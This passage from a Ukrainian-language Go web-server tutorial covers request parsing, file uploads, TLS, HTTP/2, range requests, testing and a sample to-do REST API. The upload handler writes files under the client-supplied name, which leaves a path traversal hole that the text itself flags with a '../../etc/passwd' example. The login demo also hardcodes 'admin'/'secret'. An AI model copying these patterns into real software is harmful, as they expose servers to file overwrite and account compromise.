	page := query.Get("page")                  // "2"
	limit := query.Get("limit")                // "20"

	// Якщо параметр відсутній, повертається порожній рядок
	if category == "" {
		http.Error(w, "Параметр 'category' є обов'язковим", http.StatusBadRequest)
		return
	}

	fmt.Fprintf(w, "Категорія: %s, Сторінка: %s, Ліміт: %s\n", category, page, limit)
}
```

### Читання заголовків запиту

Заголовки доступні через поле `r.Header`:

```go
func authHandler(w http.ResponseWriter, r *http.Request) {
	// Отримуємо заголовок Authorization
	authHeader := r.Header.Get("Authorization")

	if authHeader == "" {
		http.Error(w, "Відсутній заголовок Authorization", http.StatusUnauthorized)
		return
	}

	// Очікуємо формат: "Bearer <token>"
	if !strings.HasPrefix(authHeader, "Bearer ") {
		http.Error(w, "Невалідний формат токена", http.StatusUnauthorized)
		return
	}

	token := strings.TrimPrefix(authHeader, "Bearer ")
	fmt.Fprintf(w, "Токен отримано: %s\n", token)
}
```

### Обробка JSON-тіла запиту

Для POST/PUT/PATCH-запитів тіло запиту читається через поле `r.Body`, яке реалізує інтерфейс `io.ReadCloser`:

```go
type User struct {
	Name  string `json:"name"`
	Email string `json:"email"`
	Age   int    `json:"age"`
}

func createUserHandler(w http.ResponseWriter, r *http.Request) {
	// Перевіряємо метод
	if r.Method != http.MethodPost {
		http.Error(w, "Method Not Allowed", http.StatusMethodNotAllowed)
		return
	}

	// Перевіряємо заголовок Content-Type
	contentType := r.Header.Get("Content-Type")
	if contentType != "application/json" {
		http.Error(w, "Очікується Content-Type: application/json", http.StatusBadRequest)
		return
	}

	// Декодуємо JSON із тіла запиту
	var user User
	decoder := json.NewDecoder(r.Body)
	if err := decoder.Decode(&user); err != nil {
		http.Error(w, fmt.Sprintf("Невалідний JSON: %v", err), http.StatusBadRequest)
		return
	}
	defer r.Body.Close()

	// Валідація
	if user.Name == "" || user.Email == "" {
		http.Error(w, "Поля 'name' та 'email' обов'язкові", http.StatusUnprocessableEntity)
		return
	}

	// Формуємо відповідь
	user.Age = 25 // Симулюємо обробку

	w.Header().Set("Content-Type", "application/json")
	w.WriteHeader(http.StatusCreated)
	json.NewEncoder(w).Encode(user)
}
```

**Приклад виклику через cURL:**

```bash
curl -X POST http://localhost:8080/users \
  -H "Content-Type: application/json" \
  -d '{"name": "Олена", "email": "olena@example.com"}'
```

### Обробка форм `application/x-www-form-urlencoded`

Якщо клієнт відправляє дані через HTML-форму:

```html
<form action="/login" method="POST">
  <input type="text" name="username" />
  <input type="password" name="password" />
  <button type="submit">Увійти</button>
</form>
```

Сервер обробляє форму так:

```go
func loginHandler(w http.ResponseWriter, r *http.Request) {
	if r.Method != http.MethodPost {
		http.Error(w, "Method Not Allowed", http.StatusMethodNotAllowed)
		return
	}

	// Парсимо форму (читає r.Body та парсить дані)
	if err := r.ParseForm(); err != nil {
		http.Error(w, "Помилка парсингу форми", http.StatusBadRequest)
		return
	}

	username := r.FormValue("username")
	password := r.FormValue("password")

	if username == "" || password == "" {
		http.Error(w, "Логін та пароль обов'язкові", http.StatusBadRequest)
		return
	}

	// Перевіряємо облікові дані (у реальності — звірка з БД)
	if username == "admin" && password == "secret" {
		fmt.Fprintf(w, "Вітаємо, %s! Ви увійшли у систему.\n", username)
	} else {
		http.Error(w, "Невірний логін або пароль", http.StatusUnauthorized)
	}
}
```


### Обробка завантаження файлів `multipart/form-data`

Для завантаження файлів використовується кодування `multipart/form-data`:

```go
func uploadFileHandler(w http.ResponseWriter, r *http.Request) {
	if r.Method != http.MethodPost {
		http.Error(w, "Method Not Allowed", http.StatusMethodNotAllowed)
		return
	}

	// Обмежуємо максимальний розмір завантажуваного файлу до 10 МБ
	r.ParseMultipartForm(10 << 20) // 10 MB

	// Отримуємо файл із поля форми "file"
	file, header, err := r.FormFile("file")
	if err != nil {
		http.Error(w, "Помилка отримання файлу", http.StatusBadRequest)
		return
	}
	defer file.Close()

	fmt.Printf("📁 Завантажено файл: %s (розмір: %d байт)\n", header.Filename, header.Size)

	// Зберігаємо файл на диск
	dst, err := os.Create("./uploads/" + header.Filename)
	if err != nil {
		http.Error(w, "Помилка збереження файлу", http.StatusInternalServerError)
		return
	}
	defer dst.Close()

	if _, err := io.Copy(dst, file); err != nil {
		http.Error(w, "Помилка запису файлу", http.StatusInternalServerError)
		return
	}

	w.WriteHeader(http.StatusCreated)
	fmt.Fprintf(w, "Файл '%s' успішно завантажено\n", header.Filename)
}
```

**Приклад виклику через cURL:**

```bash
curl -X POST http://localhost:8080/upload \
  -F "file=@/path/to/image.png"
```

::tip
**Безпека при завантаженні файлів:** Завжди перевіряйте тип файлу (`header.Header.Get("Content-Type")`), розмір файлу та обмежуйте дозволені розширення. Ніколи не зберігайте файли з оригінальними іменами, які надає клієнт — це може призвести до атак типу **Path Traversal** (наприклад, файл з іменем `../../etc/passwd` може перезаписати системні файли). Генеруйте унікальні випадкові імена за допомогою UUID або хешів.
::

---

## Налаштування TLS: захищені HTTPS-з'єднання

Для запуску сервера з підтримкою TLS (HTTPS) використовується метод `server.ListenAndServeTLS(certFile, keyFile)`. Вам потрібні два файли:
- **Сертифікат** (`server.crt`) — публічний ключ у форматі X.509.
- **Приватний ключ** (`server.key`) — секретний ключ для дешифрування трафіку.

### Генерація самопідписного сертифіката для розробки

```bash
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt \
  -days 365 -nodes -subj "/CN=localhost"
```

Ця команда створить два файли: `server.crt` та `server.key`.

### Запуск HTTPS-сервера

```go
package main

import (
	"fmt"
	"log"
	"net/http"
)

func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		fmt.Fprintf(w, "🔒 Захищене з'єднання через HTTPS")
	})

	server := &http.Server{
		Addr:    ":8443",
		Handler: mux,
	}

	fmt.Println("🔐 HTTPS-сервер запущено на https://localhost:8443")
	if err := server.ListenAndServeTLS("server.crt", "server.key"); err != nil {
		log.Fatalf("Помилка запуску HTTPS-сервера: %v", err)
	}
}
```

Тепер відкрийте браузер і перейдіть за адресою `https://localhost:8443`. Браузер попередить вас про самопідписний сертифікат (оскільки він не довіряється жодному центру сертифікації), але ви зможете додати виключення і побачити захищене з'єднання.

::note
**Автоматичне визначення HTTP/2:** Якщо клієнт підтримує HTTP/2 (всі сучасні браузери), Go-сервер автоматично **перемикається на HTTP/2** при TLS-з'єднанні через механізм **ALPN** (_Application-Layer Protocol Negotiation_). Вам не потрібно нічого налаштовувати — Go-рантайм сам обирає найкращий протокол.
::

### HTTP/2 специфічні можливості: глибше розуміння

Хоча Go автоматично підтримує HTTP/2, розуміння його унікальних можливостей дозволяє проєктувати більш ефективні API та оптимізувати продуктивність.

#### Мультиплексування потоків: паралельні запити в одному з'єднанні

У HTTP/1.1, навіть з постійними з'єднаннями, запити обробляються **послідовно** — сервер відповідає на перший запит, потім на другий, потім на третій. Це створює **Head-of-Line Blocking**: якщо перший запит обробляється довго (складний SQL-запит, зовнішній API), всі наступні запити чекають у черзі.

HTTP/2 вирішує це через **мультиплексування** (_multiplexing_): всі запити та відповіді розбиваються на маленькі **фрейми** (_frames_), які передаються паралельно в межах одного TCP-з'єднання. Кожен логічний запит отримує унікальний **Stream ID**, і сервер може відповідати на запити у будь-якому порядку.

::plant-uml{alt="HTTP/1.1 vs HTTP/2 мультиплексування"}



::

#### Server Push: проактивна відправка ресурсів

**Server Push** дозволяє серверу **відправляти ресурси клієнту до того, як той їх запросив**. Коли браузер запитує HTML-сторінку, сервер може одразу "проштовхнути" CSS, JavaScript та зображення, не чекаючи, поки браузер розпарсить HTML і відправить додаткові запити.

**Приклад сценарію:**

1. Клієнт: `GET /index.html`
2. Сервер аналізує `index.html` і бачить, що вона посилається на `/styles.css` та `/app.js`.
3. Сервер **одночасно** відправляє:
   - Відповідь на `GET /index.html`.
   - **Push-потік** для `/styles.css` (клієнт його не запитував!).
   - **Push-потік** для `/app.js`.

Коли браузер парсить HTML і зустрічає `<link rel="stylesheet" href="/styles.css">`, файл вже знаходиться в кеші браузера — нуль додаткових запитів!

**Реалізація Server Push у Go:**

```go
func indexHandler(w http.ResponseWriter, r *http.Request) {
	// Перевіряємо, чи підтримує клієнт HTTP/2 Push
	pusher, ok := w.(http.Pusher)
	if ok {
		// Проактивно відправляємо критичні ресурси
		if err := pusher.Push("/static/styles.css", nil); err != nil {
			log.Printf("Failed to push: %v", err)
		}
		if err := pusher.Push("/static/app.js", nil); err != nil {
			log.Printf("Failed to push: %v", err)
		}
	}

	// Повертаємо HTML
	w.Header().Set("Content-Type", "text/html; charset=utf-8")
	fmt.Fprintf(w, `
<!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" href="/static/styles.css">
</head>
<body>
    <h1>Вітаємо!</h1>
    <script src="/static/app.js"></script>
</body>
</html>
	`)
}
```

::warning
**Коли НЕ використовувати Server Push:** Якщо браузер уже має ресурс у кеші, Server Push буде **марнотратством трафіку** — сервер відправить файл повторно. Також, якщо клієнт використовує повільне з'єднання, проштовхування великих ресурсів може заблокувати критичні дані. **Використовуйте обережно** та лише для критичних ресурсів (CSS above-the-fold, fonts).
::

#### Пріоритизація потоків: контроль порядку обробки

HTTP/2 дозволяє клієнту вказати **пріоритети потоків** (_stream priorities_): які ресурси важливіші і повинні передаватися першими. Браузери автоматично встановлюють пріоритети:

- **Найвищий пріоритет:** HTML, критичні CSS.
- **Середній пріоритет:** JavaScript, шрифти.
- **Низький пріоритет:** зображення нижче згину сторінки, аналітика.

Сервер може використовувати ці пріоритети для оптимізації порядку відправки байтів. У Go стандартна бібліотека автоматично підтримує пріоритети, але сторонні бібліотеки (як `x/net/http2`) надають більше контролю.

#### HPACK: стиснення заголовків

HTTP-заголовки можуть бути дуже об'ємними: `User-Agent`, `Cookie`, `Authorization` часто містять сотні байтів і **повторюються в кожному запиті**. HTTP/2 використовує алгоритм **HPACK** для стиснення заголовків:

1. Створює **динамічну таблицю** спільних заголовків між клієнтом і сервером.
2. Замість відправки повного заголовка `Cookie: session_id=abc123...` (50 байт), HTTP/2 відправляє індекс у таблиці (1–2 байти).
3. Нові заголовки стискаються через Huffman-кодування.

Результат: заголовки займають **у 5–10 разів менше** місця, ніж у HTTP/1.1.

::note
**Автоматичне стиснення у Go:** Стандартна бібліотека `net/http` автоматично використовує HPACK для HTTP/2-з'єднань. Вам не потрібно нічого налаштовувати — це відбувається на рівні протоколу. Але розуміння HPACK допомагає зрозуміти, чому HTTP/2 набагато ефективніший для API з великою кількістю метаданих.
::


---

## Потокове введення/виведення: робота з великими даними

Одна з найпотужніших можливостей Go — це **потокова обробка** даних через інтерфейси `io.Reader` та `io.Writer`. Ви можете передавати великі файли, відео або логи без завантаження всього об'єму даних у пам'ять.

### Приклад: потокова передача великого файлу

```go
func downloadFileHandler(w http.ResponseWriter, r *http.Request) {
	// Відкриваємо великий файл
	file, err := os.Open("./data/large-video.mp4")
	if err != nil {
		http.Error(w, "Файл не знайдено", http.StatusNotFound)
		return
	}
	defer file.Close()

	// Отримуємо інформацію про файл
	fileInfo, _ := file.Stat()

	// Встановлюємо заголовки для завантаження
	w.Header().Set("Content-Type", "video/mp4")
	w.Header().Set("Content-Disposition", "attachment; filename=video.mp4")
	w.Header().Set("Content-Length", fmt.Sprintf("%d", fileInfo.Size()))

	// Потокова передача файлу клієнту
	// io.Copy читає з file та записує у w порціями (за замовчуванням 32 КБ)
	if _, err := io.Copy(w, file); err != nil {
		log.Printf("Помилка передачі файлу: %v", err)
	}
}
```

Функція `io.Copy(w, file)` автоматично читає файл блоками по 32 КБ і записує у HTTP-відповідь. Це дозволяє передавати файли розміром у декілька гігабайтів без споживання великої кількості оперативної пам'яті.

### Приклад: потокове читання тіла запиту

Якщо клієнт відправляє великий файл у POST-запиті, ви можете читати його потоково:

```go
func uploadLargeFileHandler(w http.ResponseWriter, r *http.Request) {
	// Створюємо файл на диску
	dst, err := os.Create("./uploads/received-file.bin")
	if err != nil {
		http.Error(w, "Помилка створення файлу", http.StatusInternalServerError)
		return
	}
	defer dst.Close()

	// Потоково копіюємо дані з тіла запиту у файл
	bytesWritten, err := io.Copy(dst, r.Body)
	if err != nil {
		http.Error(w, "Помилка збереження даних", http.StatusInternalServerError)
		return
	}

	fmt.Fprintf(w, "Отримано %d байт даних\n", bytesWritten)
}
```

### Range Requests: часткове завантаження великих файлів

Протокол HTTP підтримує механізм **часткового завантаження** (_partial content / range requests_), який дозволяє клієнту запитувати лише певний діапазон байтів файлу. Це критично важливо для:

- **Докачування файлів:** Якщо завантаження великого файлу було перервано, клієнт може продовжити з місця обриву замість завантаження з початку.
- **Потокового відео:** Відеоплеєри запитують лише ті сегменти, які зараз відтворюються, замість завантаження всього файлу.
- **Перегляду PDF:** PDF-в'юери завантажують лише поточні сторінки.

#### Як працюють Range Requests

Клієнт вказує діапазон байтів у заголовку `Range`:

```
GET /video.mp4 HTTP/1.1
Range: bytes=0-1023
```

Сервер повертає лише перші 1024 байти (0–1023) зі статус-кодом **206 Partial Content**:

```
HTTP/1.1 206 Partial Content
Content-Range: bytes 0-1023/5242880
Content-Length: 1024
Content-Type: video/mp4

[binary data 1024 bytes]
```

Розбір заголовка `Content-Range`:
- `bytes 0-1023` — повернутий діапазон.
- `/5242880` — загальний розмір файлу (5 МБ).

Якщо клієнт запитує з 1024-го байта до кінця:

```
Range: bytes=1024-
```

Сервер поверне все, починаючи з байта 1024 до кінця файлу.

Клієнт також може запитувати **множинні діапазони**:

```
Range: bytes=0-1023, 5000-6000
```

#### Реалізація Range Requests у Go

Go стандартна бібліотека `net/http` автоматично підтримує Range Requests при використанні `http.ServeFile` або `http.ServeContent`:

```go
func videoHandler(w http.ResponseWriter, r *http.Request) {
	// http.ServeFile автоматично обробляє Range-запити
	http.ServeFile(w, r, "./videos/movie.mp4")
}
```

Якщо клієнт надіслав заголовок `Range`, Go автоматично:
1. Парсить діапазон.
2. Відкриває файл і переходить до потрібної позиції (`file.Seek`).
3. Читає та повертає лише запитаний діапазон.
4. Встановлює статус-код 206 та заголовки `Content-Range`.

#### Ручна реалізація Range Requests

Для більшого контролю можна реалізувати підтримку вручну:

```go
func rangeFileHandler(w http.ResponseWriter, r *http.Request) {
	file, err := os.Open("./data/large-file.bin")
	if err != nil {
		http.Error(w, "File not found", http.StatusNotFound)
		return
	}
	defer file.Close()

	fileInfo, _ := file.Stat()
	fileSize := fileInfo.Size()

	// Перевіряємо наявність заголовка Range
	rangeHeader := r.Header.Get("Range")
	if rangeHeader == "" {
		// Повний файл
		w.Header().Set("Content-Length", fmt.Sprintf("%d", fileSize))
		w.Header().Set("Content-Type", "application/octet-stream")
		io.Copy(w, file)
		return
	}

	// Парсимо Range: "bytes=1024-2047"
	var start, end int64
	_, err = fmt.Sscanf(rangeHeader, "bytes=%d-%d", &start, &end)
	if err != nil {
		// Якщо формат "bytes=1024-" (до кінця)
		fmt.Sscanf(rangeHeader, "bytes=%d-", &start)
		end = fileSize - 1
	}

	// Валідація діапазону
	if start < 0 || start >= fileSize || end >= fileSize || start > end {
		w.Header().Set("Content-Range", fmt.Sprintf("bytes */%d", fileSize))
		http.Error(w, "Requested Range Not Satisfiable", http.StatusRequestedRangeNotSatisfiable)
		return
	}

	// Переходимо до початкової позиції
	file.Seek(start, io.SeekStart)

	// Обчислюємо довжину діапазону
	rangeLength := end - start + 1

	// Встановлюємо заголовки для 206 Partial Content
	w.Header().Set("Content-Range", fmt.Sprintf("bytes %d-%d/%d", start, end, fileSize))
	w.Header().Set("Content-Length", fmt.Sprintf("%d", rangeLength))
	w.Header().Set("Content-Type", "application/octet-stream")
	w.Header().Set("Accept-Ranges", "bytes")
	w.WriteHeader(http.StatusPartialContent)

	// Передаємо лише запитаний діапазон
	io.CopyN(w, file, rangeLength)
}
```

#### Тестування Range Requests через cURL

```bash
# Завантажити перші 1024 байти
curl -H "Range: bytes=0-1023" http://localhost:8080/file -o part1.bin

# Завантажити наступні 1024 байти (докачування)
curl -H "Range: bytes=1024-2047" http://localhost:8080/file -o part2.bin

# Об'єднати частини
cat part1.bin part2.bin > full-file.bin
```

::tip
**Практичне застосування:** Range Requests використовуються медіаплеєрами (YouTube, Netflix), менеджерами завантажень (wget, aria2), PDF-переглядачами та всюди, де потрібне ефективне завантаження великих файлів. Якщо ваш API роздає великі файли, **завжди підтримуйте Range Requests** — це різко покращує UX для користувачів із повільним або нестабільним інтернетом.
::

---

## Інтеграція з контекстом: таймаути та скасування операцій

Кожен HTTP-запит у Go має вбудований **контекст** (_context_), доступний через метод `r.Context()`. Контекст автоматично скасовується, якщо:
- Клієнт закриває з'єднання (наприклад, користувач закрив браузер).
- Сервер досягає таймауту `ReadTimeout` або `WriteTimeout`.
- Ви явно викликаєте `cancel()` у випадку помилки.

### Приклад: виконання тривалої операції з підтримкою скасування

```go
func longOperationHandler(w http.ResponseWriter, r *http.Request) {
	ctx := r.Context()

	// Канал для результату операції
	result := make(chan string, 1)

	// Запускаємо тривалу операцію в окремій горутині
	go func() {
		// Симулюємо тривалу обробку (наприклад, запит до зовнішнього API)
		time.Sleep(5 * time.Second)
		result <- "Операція завершена успішно"
	}()

	// Чекаємо або завершення операції, або скасування контексту
	select {
	case res := <-result:
		fmt.Fprintf(w, "%s\n", res)

	case <-ctx.Done():
		// Клієнт закрив з'єднання або вийшов таймаут
		log.Println("⚠️ Запит скасовано клієнтом або таймаутом")
		return
	}
}
```

Якщо користувач закриє браузер до того, як операція завершиться (протягом 5 секунд), сервер отримає сигнал через `ctx.Done()` і може припинити обробку, звільнивши ресурси.

::tip
**Передавайте контекст у всі виклики:** Завжди передавайте `ctx := r.Context()` у всі виклики баз даних, зовнішніх API, черг повідомлень. Це дозволяє каскадно скасовувати операції, якщо клієнт більше не чекає на відповідь. Наприклад, `db.QueryContext(ctx, query)` автоматично припинить SQL-запит, якщо контекст буде скасовано.
::

---

## Модульне тестування HTTP-обробників

Пакет `net/http/httptest` дозволяє тестувати HTTP-обробники без запуску реального сервера. Ви створюєте фіктивний запит і фіксуєте відповідь у структурі `httptest.ResponseRecorder`.

### Приклад тесту обробника

```go
package main

import (
	"net/http"
	"net/http/httptest"
	"strings"
	"testing"
)

func healthHandler(w http.ResponseWriter, r *http.Request) {
	w.Header().Set("Content-Type", "application/json")
	w.WriteHeader(http.StatusOK)
	w.Write([]byte(`{"status": "healthy"}`))
}

func TestHealthHandler(t *testing.T) {
	// Створюємо фіктивний HTTP-запит
	req := httptest.NewRequest(http.MethodGet, "/health", nil)

	// Створюємо ResponseRecorder для запису відповіді
	rr := httptest.NewRecorder()

	// Викликаємо обробник
	healthHandler(rr, req)

	// Перевіряємо статус-код
	if rr.Code != http.StatusOK {
		t.Errorf("Очікувався статус-код 200, отримано %d", rr.Code)
	}

	// Перевіряємо тіло відповіді
	expected := `{"status": "healthy"}`
	if strings.TrimSpace(rr.Body.String()) != expected {
		t.Errorf("Очікувалося тіло %s, отримано %s", expected, rr.Body.String())
	}

	// Перевіряємо заголовок Content-Type
	contentType := rr.Header().Get("Content-Type")
	if contentType != "application/json" {
		t.Errorf("Очікувався Content-Type application/json, отримано %s", contentType)
	}
}
```

Запустіть тест:

```bash
go test -v
```

Результат:

```
=== RUN   TestHealthHandler
--- PASS: TestHealthHandler (0.00s)
PASS
ok      your-module-name    0.002s
```

::note
**Переваги модульного тестування HTTP-шару:** Тести виконуються **миттєво** (без мережевих викликів), їх можна запускати тисячі разів у секунду в CI/CD-пайплайнах, вони не вимагають запуску реального сервера або бази даних. Це дозволяє швидко перевіряти логіку обробників, валідацію даних, коректність статус-кодів та заголовків.
::


---

## Повний приклад: REST API для управління задачами

Тепер об'єднаємо всі отримані знання у один повний робочий приклад — простий REST API для управління списком задач (_To-Do List_).

::code-tree

```go [cmd/todo-api/main.go]
package main

import (
	"context"
	"encoding/json"
	"fmt"
	"log"
	"net/http"
	"os"
	"os/signal"
	"strconv"
	"strings"
	"sync"
	"syscall"
	"time"
)

// Структура задачі
type Task struct {
	ID        int       `json:"id"`
	Title     string    `json:"title"`
	Completed bool      `json:"completed"`
	CreatedAt time.Time `json:"created_at"`
}

// Сховище задач у пам'яті (у реальному застосунку — база даних)
type TaskStore struct {
	mu    sync.RWMutex
	tasks map[int]*Task
	nextID int
}

func NewTaskStore() *TaskStore {
	return &TaskStore{
		tasks: make(map[int]*Task),
		nextID: 1,
	}
}

func (s *TaskStore) Create(title string) *Task {
	s.mu.Lock()
	defer s.mu.Unlock()

	task := &Task{
		ID:        s.nextID,
		Title:     title,
		Completed: false,
		CreatedAt: time.Now(),
	}

	s.tasks[s.nextID] = task
	s.nextID++

	return task
}

func (s *TaskStore) GetAll() []*Task {
	s.mu.RLock()
	defer s.mu.RUnlock()

	tasks := make([]*Task, 0, len(s.tasks))
	for _, task := range s.tasks {
		tasks = append(tasks, task)
	}

	return tasks
}

func (s *TaskStore) GetByID(id int) (*Task, bool) {
	s.mu.RLock()
	defer s.mu.RUnlock()

	task, exists := s.tasks[id]
	return task, exists
}

func (s *TaskStore) Delete(id int) bool {
	s.mu.Lock()
	defer s.mu.Unlock()

	if _, exists := s.tasks[id]; !exists {
		return false
	}

	delete(s.tasks, id)
	return true
}

// HTTP-обробники
func (s *TaskStore) handleTasks(w http.ResponseWriter, r *http.Request) {
	switch r.Method {
	case http.MethodGet:
		s.handleGetTasks(w, r)
	case http.MethodPost:
		s.handleCreateTask(w, r)
	default:
		http.Error(w, "Method Not Allowed", http.StatusMethodNotAllowed)
	}
}

func (s *TaskStore) handleGetTasks(w http.ResponseWriter, r *http.Request) {
	tasks := s.GetAll()

	w.Header().Set("Content-Type", "application/json")
	json.NewEncoder(w).Encode(map[string]any{
		"tasks": tasks,
		"count": len(tasks),
	})
}

func (s *TaskStore) handleCreateTask(w http.ResponseWriter, r *http.Request) {
	var payload struct {
		Title string `json:"title"`
	}

	if err := json.NewDecoder(r.Body).Decode(&payload); err != nil {
		http.Error(w, "Invalid JSON", http.StatusBadRequest)
		return
	}

	if strings.TrimSpace(payload.Title) == "" {
		http.Error(w, "Title is required", http.StatusUnprocessableEntity)
		return
	}

	task := s.Create(payload.Title)

	w.Header().Set("Content-Type", "application/json")
	w.WriteHeader(http.StatusCreated)
	json.NewEncoder(w).Encode(task)
}

func (s *TaskStore) handleTaskByID(w http.ResponseWriter, r *http.Request) {
	// Парсимо ID із шляху (наприклад, /tasks/42)
	pathParts := strings.Split(r.URL.Path, "/")
	if len(pathParts) < 3 {
		http.Error(w, "Invalid path", http.StatusBadRequest)
		return
	}

	id, err := strconv.Atoi(pathParts[2])
	if err != nil {
		http.Error(w, "Invalid task ID", http.StatusBadRequest)
		return
	}

	switch r.Method {
	case http.MethodGet:
		s.handleGetTaskByID(w, r, id)
	case http.MethodDelete:
		s.handleDeleteTask(w, r, id)
	default:
		http.Error(w, "Method Not Allowed", http.StatusMethodNotAllowed)
	}
}

func (s *TaskStore) handleGetTaskByID(w http.ResponseWriter, r *http.Request, id int) {
	task, exists := s.GetByID(id)
	if !exists {
		http.Error(w, "Task not found", http.StatusNotFound)
		return
	}

	w.Header().Set("Content-Type", "application/json")
	json.NewEncoder(w).Encode(task)
}

func (s *TaskStore) handleDeleteTask(w http.ResponseWriter, r *http.Request, id int) {
	if !s.Delete(id) {
		http.Error(w, "Task not found", http.StatusNotFound)
		return
	}

	w.WriteHeader(http.StatusNoContent)
}

func main() {
	store := NewTaskStore()

	// Додаємо кілька тестових задач
	store.Create("Вивчити HTTP протокол")
	store.Create("Створити REST API на Go")
	store.Create("Розгорнути сервер у Docker")

	// Налаштовуємо маршрути
	mux := http.NewServeMux()
	mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		fmt.Fprintf(w, "🚀 To-Do API працює! Спробуйте GET /tasks")
	})
	mux.HandleFunc("/tasks", store.handleTasks)
	mux.HandleFunc("/tasks/", store.handleTaskByID)

	// Кастомний сервер із таймаутами
	server := &http.Server{
		Addr:         ":8080",
		Handler:      mux,
		ReadTimeout:  10 * time.Second,
		WriteTimeout: 10 * time.Second,
		IdleTimeout:  120 * time.Second,
	}

	// Запускаємо сервер у горутині
	go func() {
		fmt.Println("🚀 To-Do API запущено на http://localhost:8080")
		if err := server.ListenAndServe(); err != nil && err != http.ErrServerClosed {
			log.Fatalf("Помилка запуску сервера: %v", err)
		}
	}()

	// Graceful Shutdown
	quit := make(chan os.Signal, 1)
	signal.Notify(quit, os.Interrupt, syscall.SIGTERM)
	<-quit

	fmt.Println("\n🛑 Зупиняємо сервер...")

	ctx, cancel := context.WithTimeout(context.Background(), 15*time.Second)
	defer cancel()

	if err := server.Shutdown(ctx); err != nil {
		log.Fatalf("Помилка при зупинці сервера: %v", err)
	}

	fmt.Println("✅ Сервер коректно зупинено")
}
```

::

### Тестування API через cURL

Запустіть сервер:

```bash
go run cmd/todo-api/main.go
```

**Отримати всі задачі:**

```bash
curl http://localhost:8080/tasks
```

Відповідь:

```json
{
  "tasks": [
    {
      "id": 1,
      "title": "Вивчити HTTP протокол",
      "completed": false,
      "created_at": "2026-09-01T12:30:00Z"
    },
    {
      "id": 2,
      "title": "Створити REST API на Go",
      "completed": false,
      "created_at": "2026-09-01T12:30:01Z"
    }
  ],
  "count": 2
}
```

**Створити нову задачу:**

```bash
curl -X POST http://localhost:8080/tasks \
  -H "Content-Type: application/json" \
  -d '{"title": "Додати документацію API"}'
```

Відповідь (статус-код 201):

```json
{
  "id": 4,
  "title": "Додати документацію API",
  "completed": false,
  "created_at": "2026-09-01T12:35:00Z"
}
```

**Отримати задачу за ID:**

```bash
curl http://localhost:8080/tasks/1
```

**Видалити задачу:**

```bash
curl -X DELETE http://localhost:8080/tasks/1
```

Відповідь: статус-код 204 (No Content).

---

## Інтеграція з клієнтами на різних платформах

### Підключення з Desktop-клієнта (JavaFX / C# Avalonia)

У JavaFX ви можете використовувати бібліотеку `HttpClient`:

```java
HttpClient client = HttpClient.newHttpClient();
HttpRequest request = HttpRequest.newBuilder()
    .uri(URI.create("http://localhost:8080/tasks"))
    .header("Content-Type", "application/json")
    .GET()
    .build();

HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());
System.out.println(response.body());
```

У C# Avalonia:

```csharp
using var httpClient = new HttpClient();
var response = await httpClient.GetStringAsync("http://localhost:8080/tasks");
Console.WriteLine(response);
```

### Підключення з мобільного клієнта (React Native)

```javascript
fetch('http://localhost:8080/tasks')
  .then(response => response.json())
  .then(data => console.log(data.tasks))
  .catch(error => console.error('Error:', error));
```

::warning
**CORS для веб- та мобільних клієнтів:** Якщо ваш клієнт працює в браузері або через React Native на іншому домені/порту, вам потрібно налаштувати CORS-заголовки на сервері. У наступній лекції ми детально розглянемо патерн Middleware для автоматичної обробки CORS.
::

---

## Підсумкові запитання для самоперевірки

::accordion

::accordion-item{label="❓ Чому HTTP/1.0 вважається неефективним для сучасних вебсайтів?" icon="i-lucide-help-circle"}

HTTP/1.0 вимагав окремого TCP-з'єднання для кожного запиту. Якщо вебсторінка містила 50 ресурсів (HTML, CSS, JS, зображення), браузер повинен був встановити та закрити 50 окремих з'єднань. Кожне з'єднання потребує 3-way handshake (затримка RTT), виділення пам'яті на сервері та налаштування вікна перегляду TCP. Це створювало величезні накладні витрати на мережеву взаємодію.

::

::accordion-item{label="❓ Чим відрізняються методи PUT та PATCH у REST API?" icon="i-lucide-help-circle"}

**PUT** використовується для **повної заміни** ресурсу. Ви відправляєте повний об'єкт із усіма полями, і сервер замінює існуючий ресурс новим представленням. Наприклад, `PUT /api/users/42` з повним об'єктом користувача.

**PATCH** використовується для **часткового оновлення** ресурсу. Ви відправляєте лише ті поля, які потрібно змінити. Наприклад, `PATCH /api/users/42` з тілом `{"email": "new@example.com"}` змінює лише email, залишаючи інші поля без змін.

::

::accordion-item{label="❓ Навіщо налаштовувати ReadTimeout та WriteTimeout у продакшн-сервері?" icon="i-lucide-help-circle"}

Без налаштованих таймаутів повільний або зловмисний клієнт може тримати з'єднання відкритим необмежений час. Наприклад, атака **Slowloris** відкриває тисячі з'єднань і відправляє дані по одному байту за секунду. Без таймауту кожне таке з'єднання створює горутину, яка ніколи не завершується, виснажуючи пам'ять сервера. Налаштовані таймаути автоматично закривають такі з'єднання, захищаючи сервер від виснаження ресурсів.

::

::accordion-item{label="❓ Чому метод GET повинен бути ідемпотентним, а POST — ні?" icon="i-lucide-help-circle"}

**GET** є **safe** (безпечним) методом, тобто він не повинен змінювати стан сервера. Тому багаторазовий виклик `GET /api/users/42` завжди повертає той самий результат — він **ідемпотентний**.

**POST** використовується для створення нових ресурсів або виконання дій, що змінюють стан. Повторний виклик `POST /api/users` із тими самими даними може створити дублікати користувачів, тому POST **не є ідемпотентним**.

::

::accordion-item{label="❓ Що таке Graceful Shutdown і чому він критичний для продакшн-систем?" icon="i-lucide-help-circle"}

**Graceful Shutdown** — це процес коректного завершення роботи сервера:
1. Сервер припиняє приймати нові з'єднання.
2. Усі активні запити завершуються.
3. Сервер звільняє ресурси та коректно завершує роботу.

Без Graceful Shutdown при перезапуску сервера (наприклад, при розгортанні нової версії) всі активні клієнти отримають помилки з'єднання, транзакції в базі даних можуть залишитися незавершеними, файли — недописаними. Graceful Shutdown забезпечує **нульовий час простою** (_zero downtime deployment_).

::

::accordion-item{label="❓ Чому io.Copy ефективніший за завантаження всього файлу в пам'ять?" icon="i-lucide-help-circle"}

`io.Copy(dst, src)` читає дані **блоками по 32 КБ** і записує їх порціями. Якщо файл має розмір 2 ГБ, у пам'яті одночасно зберігається лише 32 КБ. Якщо ж ви спробуєте зробити `data, _ := ioutil.ReadAll(file)`, Go завантажить усі 2 ГБ у пам'ять, що може спричинити OOM (_Out Of Memory_) на сервері із обмеженими ресурсами.

::

